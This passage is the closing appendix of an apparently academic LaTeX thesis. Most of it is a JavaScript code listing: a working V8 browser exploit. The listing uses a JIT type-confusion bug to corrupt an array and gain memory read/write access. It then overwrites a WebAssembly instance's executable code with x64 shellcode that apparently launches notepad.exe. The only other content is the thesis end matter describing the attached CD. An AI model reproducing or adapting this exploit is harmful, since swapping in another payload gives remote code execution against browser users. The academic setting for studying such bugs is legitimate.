	0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 
	0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 
	0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1, 0x4C, 
	0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 
	0x58, 0x44, 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 
	0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
    0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 
	0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 
	0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 
	0x52, 0xFF, 0xE0, 0x58, 0x41, 0x59, 0x5A, 0x48, 0x8B, 
	0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 
	0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 
	0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 
	0x8B, 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 
	0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF, 0xD5, 
	0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 
	0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 
	0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x6E, 
	0x6F, 0x74, 0x65, 0x70, 0x61, 0x64, 0x2E, 0x65, 0x78, 
	0x65, 0x00];
    var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 
	0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 
	130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 
	0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 
	6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 
	0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 
	97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 
	132, 128, 128, 128, 0, 0, 65, 42, 11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var wasmInstance = new WebAssembly.Instance(wasmModule);
    var main = wasmInstance.exports.main;
    var bf = new ArrayBuffer(8);
    var bfView = new DataView(bf);
    function fLow(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(0, true));
    }
    function fHi(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(4, true))
    }
    function i2f(low, hi) {
        bfView.setUint32(0, low, true);
        bfView.setUint32(4, hi, true);
        return bfView.getFloat64(0, true);
    }
    function f2big(f) {
        bfView.setFloat64(0, f, true);
        return bfView.getBigUint64(0, true);
    }
    function big2f(b) {
        bfView.setBigUint64(0, b, true);
        return bfView.getFloat64(0, true);
    }
    class LeakArrayBuffer extends ArrayBuffer {
        constructor(size) {
            super(size);
            this.slot = 0xb33f;
        }
    }
    function foo(a) {
        let x = -1;
        if (a) x = 0xFFFFFFFF;
        var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
        arr.shift();
        let local_arr = Array(2);
        local_arr[0] = 5.1;//4014666666666666
        let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
        arr[0] = 0x1122;
        return [arr, local_arr, buff];
    }
    for (var i = 0; i < 0x10000; ++i)
        foo(false);
    gc(); gc();
    [corrput_arr, rwarr, corrupt_buff] = foo(true);
    corrput_arr[12] = 0x22444;
    delete corrput_arr;
    function setbackingStore(hi, low) {
        rwarr[4] = i2f(fLow(rwarr[4]), hi);
        rwarr[5] = i2f(low, fHi(rwarr[5]));
    }
    function leakObjLow(o) {
        corrupt_buff.slot = o;
        return (fLow(rwarr[9]) - 1);
    }
    let corrupt_view = new DataView(corrupt_buff);
    let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
    let idx0Addr = corrupt_buffer_ptr_low - 0x10;
    let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) 
		- ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) 
		+ 0x40000;
    let delta = baseAddr + 0x1c - idx0Addr;
    if ((delta % 8) == 0) {
        let baseIdx = delta / 8;
        this.base = fLow(rwarr[baseIdx]);
    } else {
        let baseIdx = ((delta - (delta % 8)) / 8);
        this.base = fHi(rwarr[baseIdx]);
    }
    let wasmInsAddr = leakObjLow(wasmInstance);
    setbackingStore(wasmInsAddr, this.base);
    let code_entry = corrupt_view.getFloat64(13 * 8, true);
    setbackingStore(fLow(code_entry), fHi(code_entry));
    for (let i = 0; i < shellcode.length; i++) {
        corrupt_view.setUint8(i, shellcode[i]);
    }
    main();
</script>
\end{lstlisting}
 

\chapter*{Contents of attached CD}

The thesis is accompanied by a CD containing:
\begin{itemize}
\item thesis (\texttt{pdf} file),
\item source code of applications,
\item data sets used in experiments.
\end{itemize}

\listoffigures
\listoftables
	
\end{appendices}


\end{document}


%% Finis coronat opus.